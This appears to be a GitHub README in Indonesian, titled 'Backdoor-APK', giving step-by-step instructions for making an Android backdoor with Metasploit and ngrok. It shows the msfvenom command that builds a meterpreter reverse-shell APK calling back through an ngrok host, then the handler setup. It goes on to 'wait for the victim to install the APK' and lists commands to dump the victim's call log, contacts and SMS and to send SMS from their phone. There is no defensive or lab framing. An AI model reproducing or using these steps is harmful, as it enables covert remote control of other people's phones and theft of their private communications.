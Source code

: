 # Backdoor-APK
Cara Membuat Backdoor Untuk Android Dengan Metaspolit Dan Ngrok

**1. Install Metasploit**

**2. Install Ngrok**

**3. Buat Akun Ngrok**

**4. Masukkan Token Ngrok**
<br> '$./ngrok authtoken 'Masukkan Token';'

**5. Buat Port Ngrok**
<br> $./ngrok http 4455

**6. Melihat Status Ngrok**
<br> $ngrok tcp 4455 (port sesuai yang kita buat di awal)

**7. Jalankan Metasploit**
<br> $msfvenom -p android/meterpreter/reverse_tcp LHOST=0.tcp.ngrok.io LPORT=11610 R > /home/x-ploit001/Backdoor.apk
<br> Ket. Untuk LHOST dan LPORT diambil dari forwarding status ngrok

**8. Menjalankan Msfconsole**
<br> $msfconsole

**9. EKSEKUSI**
<br> msf > use multi/handler
<br> msf exploit(muti/handler) > set payload android/meterpreter/reverse_tcp
<br> msf exploit(muti/handler) > set lhost 0.0.0.0
<br> msf exploit(muti/handler) > set lport 4455
<br> msf exploit(muti/handler) > exploit

**10. Menunggu Korban Install APK**
**11. Perintah Remoting**
<br> dump_callog (Mendapatkan log panggilan di hp korban)
<br> dump_contacs (Mendapatkan kontak di hp korban)
<br> dump_sms (Mendapatkan sms masuk dan keluar di hp korban)
<br> send_sms (Mengirim sms menggunakan hp korban)
